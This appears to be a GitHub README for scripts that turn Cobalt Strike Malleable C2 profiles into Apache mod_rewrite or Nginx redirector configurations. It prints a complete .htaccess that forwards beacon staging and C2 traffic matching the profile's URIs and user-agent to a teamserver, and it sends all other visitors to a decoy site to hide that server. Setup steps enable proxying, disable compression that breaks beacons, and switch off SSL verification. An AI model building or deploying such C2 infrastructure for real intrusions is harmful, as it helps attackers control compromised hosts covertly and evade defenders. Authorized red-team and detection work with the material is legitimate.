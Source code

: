 # Automatically Generate Rulesets for Apache mod_rewrite or Nginx for Intelligent HTTP C2 Redirection

This project converts a Cobalt Strike profile to a functional mod_rewrite .htaccess or Nginx config file to support HTTP proxy redirection to a CobaltStrike teamserver.

You should test and tune the output as needed before depolying, but these scripts should handle the heavy lifting.

## Updates and Features

 - Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. Result: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
 - Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
 - Uses a custom Malleable C2 profile to build a Nginx config with corresponding proxy_pass rules
 - Supports the Cobalt Strike custom URI features as of CS 3.10
 - HTTP or HTTPS proxying to the Cobalt Strike Team Server
 - HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to .htaccess
3) Modify as needed
4) Use the script with your redirector

## Apache mod_rewrite Example

    python cs2modrewrite.py -i havex.profile -c https://TEAMSERVER -r https://GOHERE
    #### Save the following as .htaccess in the root web directory
    
    ########################################
    ## .htaccess START 
    RewriteEngine On
    ## Uncomment to enable verbose debugging in /var/logs/apache2/error.log
    # LogLevel alert rewrite:trace5
    
    ## (Optional)
    ## Scripted Web Delivery 
    ## Uncomment and adjust as needed
    #RewriteCond %{REQUEST_URI} ^/css/style1.css?$
    #RewriteCond %{HTTP_USER_AGENT} ^$
    #RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Default Beacon Staging Support (/1234)
    RewriteCond %{REQUEST_URI} ^/..../?$
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
    ## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
    ## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
    ## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
    ## Profile URIs
    RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
    ## Profile UserAgent
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Redirect all other traffic here (Optional)
    RewriteRule ^.*$ HTTPS://GOHERE/ [L,R=302]

    ## .htaccess END
    ########################################

## Nginx Example

    python ./cs2nginx.py -i havex.profile -c https://127.0.0.1 -r https://www.google.com -H mydomain.local
    
    python ./cs2nginx.py -h
    usage: cs2nginx.py [-h] [-i INPUTFILE] [-c C2SERVER] [-r REDIRECT]
                    [-H HOSTNAME]

    Converts Cobalt Strike profiles to Nginx proxy_pass format by using URI
    endpoints to create regex matching rules. Make sure the profile passes a
    c2lint check before running this script.

    optional arguments:
    -h, --help      show this help message and exit
    -i INPUTFILE    C2 Profile file
    -c C2SERVER     C2 Server (http://teamserver_ip or
                    https://teamserver_domain)
    -r REDIRECT     Redirect bad requests to this URL (http://google.com)
    -H HOSTNAME     Hostname for Nginx redirector


----------------------------------------------
## Nginx Setup

`apt-get install nginx nginx-extras`

*Note:* `nginx-extras` is needed for custom server headers. If you can't get this package, then comment out the server header line in the resulting configuration file.
 
## Apache Rewrite Setup and Tips

### Enable Rewrite and Proxy

    a2enmod rewrite headers proxy proxy_http ssl cache
    a2dismod -f deflate
    service apache2 reload

*Note:* https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
"e0x70i pointed out in the comments below that if your Cobalt Strike Malleable C2 profile contains an Accept-Encoding header for gzip, your Apache install may compress that traffic by default and cause your Beacon to be unresponsive or function incorrectly. To overcome this, disable mod_deflate (via a2dismod deflate and add the No Encode ([NE]) flag to your rewrite rules. (Thank you, e0x70i!)"

### SSL support requires the following in the site config

    # Enable SSL
    SSLEngine On
    
    # Enable Proxy
    SSLProxyEngine On
    
    # Trust Self-Signed Certificates
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off
    SSLProxyCheckPeerExpire off

### HTACCESS
If you plan on using mod_rewrite in .htaccess files, you also need to enable the use of .htaccess files by changing `AllowOverride None` to `AllowOverride All`. For the default website, edit /etc/apache2/sites-available/default

    <Directory /var/www/>
            Options Indexes FollowSymLinks MultiViews
            AllowOverride All
            Order allow,deny
            allow from all
    </Directory>

## References

[cs2modrewrite.py blog post](https://posts.specterops.io/automating-apache-mod-rewrite-and-cobalt-strike-malleable-c2-profiles-d45266ca642)

[Apache mod_rewrite](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)

[Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)

[Resilient Red Team HTTPS Redirection Using Nginx - Adam Brown](https://coffeegist.com/security/resilient-red-team-https-redirection-using-nginx/)
